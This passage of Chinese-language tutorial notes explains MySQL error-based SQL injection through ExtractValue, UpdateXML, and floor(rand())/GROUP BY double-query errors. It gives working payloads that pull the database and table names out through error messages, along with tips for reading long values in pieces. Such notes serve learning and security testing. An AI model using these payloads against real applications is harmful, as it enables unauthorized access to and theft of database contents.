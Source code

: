         报错原理：如果第二个参数（XPath路径表达式）不符合XPath格式规范，MySQL就会在错误信息中抛出这个不合法的XPath字符串。
        
        **制造错误的方法：** 在XPath中，`~`、`^`、`!`等字符是非法开头的。最常用 `0x7e`（即 `~` 符号的十六进制）来作为一个非法XPath的开头。
        
        常用payload：
        
        ```java
        1 AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))
        //这里第二个参数其实就是 ~DB~ 并且在1里面查，肯定报错了，抛出~DB~
        ```
        
        注意点：ExtractValue的报错返回字符串长度最大为32，所以如果查的数据太长时需要使用`substr()` 或 `limit` 分次截取。
        
        `substr(str, pos, len)`：
        
        - `str`：要处理的字符串
        - `pos`：起始位置（从 1 开始）
        - `len`：截取长度
        
        `LIMIT offset, count`：
        
        - `LIMIT 0,1` → 从第 0 行开始，取 1 行
        
        注出表名的payload：
        
        ```java
        1 AND extractvalue(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)))
        
        1 AND extractvalue(1, concat(0x7e, substr((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 1, 31)))
        
        GROUP_CONCAT():作用是将查到的表名连成字符串
        ```
        
    2. UpdateXML
        
        工作原理：UpdateXML(xml_target, xpath_expr, new_xml)，将`xml_target`中匹配`xpath_expr`的部分替换为`new_xml`
        
        报错原理：和 `ExtractValue()` 完全一样：如果第二个参数（XPath路径表达式）不符合XPath格式，MySQL就会在错误信息中抛出这个非法字符串。
        
        常用payload：
        
        ```java
        1 AND updatexml(1, concat(0x7e, (SELECT database()), 0x7e), 1)
        ```
        
    3. **Floor() + count() + group by**
        
        利用了**数据库主键重复**的错误。通常被称为“双查询注入”或“分组报错注入”。
        
        payload：
        
        ```java
        1 AND (SELECT 1 FROM (SELECT count(*), concat((SELECT database()), 0x7e, 
        floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x) AS y)
        ```
        
        分解payload：
        
        1. `(SELECT database())`：结果为 `my_database`。
        2. `floor(rand(0)*2)`：`rand(0)` 产生一个固定的随机序列（如 0.7, 0.4, 0.3, ...），`*2` 后范围是 (0, 2)，`floor()` 取整后，结果序列是 `1, 0, 1, 1, 0, ...`。这个**不确定的结果**是触发错误的关键。
        3. `concat(..., 0x7e, floor(rand(0)*2)`：假设第一次执行结果是 `concat('my_database', '~', 1) = 'my_database~1'`。
        4. `... AS x FROM ... GROUP BY x`：告诉数据库按 `x` 字段（即 `my_database~1`, `my_database~0` 这样的值）进行分组统计。
        5. 数据库在构建临时表处理 `GROUP BY` 时，由于 `rand(0)` 值的不确定性，导致了上述的主键重复错误。
        6. **报错信息类似于：** `Duplicate entry 'my_database~1' for key 'group_key'`
        7. 目标数据 `my_database` 再次成功回显。
        